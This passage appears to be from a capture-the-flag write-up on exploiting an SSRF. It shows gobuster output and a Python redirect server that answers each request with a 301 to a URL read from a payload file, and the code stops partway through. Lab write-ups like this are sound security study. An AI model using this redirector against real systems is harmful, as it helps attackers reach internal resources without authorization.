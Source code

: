 ```bash
/server-status        (Status: 403) [Size: 277]
```

We can see the _/dev_ path on gobuster, but when going to the web see no data. Maybe with the SSRF redirecting the request to that path we might see its content. I'm running the following code:


```python
#!/usr/bin/env python
"""
Simple HTTP URL redirector
Shreyas Cholia 10/01/2015

usage: redirect.py [-h] [--port PORT] [--ip IP] redirect_url

HTTP redirect server

positional arguments:
  redirect_url

optional arguments:
  -h, --help            show this help message and exit
  --port PORT, -p PORT  port to listen on
  --ip IP, -i IP        host interface to listen on
"""
import SimpleHTTPServer
import SocketServer
import sys
import argparse



def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):

            with open('payload.txt', 'r') as in_file:
                redirect_url = in_file.read().splitlines()[0]
                
            print(redirect_url)
            self.send_response(301)
            self.send_header('Location', redirect_url)
            self.end_headers()

    return RedirectHandler
           

def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    #parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()
    
    redirect_url = ''#myargs.redirect_url
    port = myargs.port
```